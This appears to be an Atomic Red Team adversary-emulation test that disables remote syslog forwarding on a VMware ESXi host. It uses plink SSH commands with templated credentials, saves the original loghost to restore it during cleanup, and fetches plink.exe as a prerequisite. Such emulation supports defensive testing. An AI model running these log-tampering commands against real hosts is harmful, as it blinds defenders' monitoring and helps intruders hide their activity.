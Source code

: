 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# Extract line with IP address from the syslog configuration output
#{plink_file} -ssh #{vm_host} -l #{username} -pw #{password} -m PathToAtomicsFolder\..\atomics\T1560.001\src\esxi_get_loghost.txt | findstr /r "[0-9]*\.[0-9]*\.[0-9]*\." > c:\temp\loghost.txt

# Replace the IP with "0"
#{plink_file} -ssh #{vm_host} -l #{username} -pw #{password} -m PathToAtomicsFolder\..\atomics\T1560.001\src\esxi_remove_loghost.txt

# Extract the IP from the line extracted from findstr
$inputFilePath = "c:\temp\loghost.txt"
$outputFilePath = "c:\temp\loghost_ip.txt"

$fileContent = Get-Content -Path $inputFilePath -Raw

if ([string]::IsNullOrWhiteSpace($fileContent)) {
    Write-Host "The content is $fileContent"
    Write-Host "The file is empty"
} else {
    # Use a regular expression to extract IP addresses
    $ipAddresses = [regex]::Matches($fileContent, '(udp|tcp):\/\/[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.*').Value
    
    $output = "esxcli system syslog config set --loghost=" + $ipAddresses

    $output | Out-File -FilePath $outputFilePath -Encoding ascii
    
    Write-Host "IP addresses extracted and saved to $outputFilePath"
}
```

#### Cleanup Commands:
```powershell
# Re-add the initially extracted IP
#{plink_file} -ssh #{vm_host} -l #{username} -pw #{password} -m c:\temp\loghost_ip.txt

rm c:\temp\loghost_ip.txt
rm c:\temp\loghost.txt
```



#### Dependencies:  Run with `powershell`!
##### Description: The plink executable must be found in the ExternalPayloads folder.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{plink_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe" -OutFile "#{plink_file}"
```
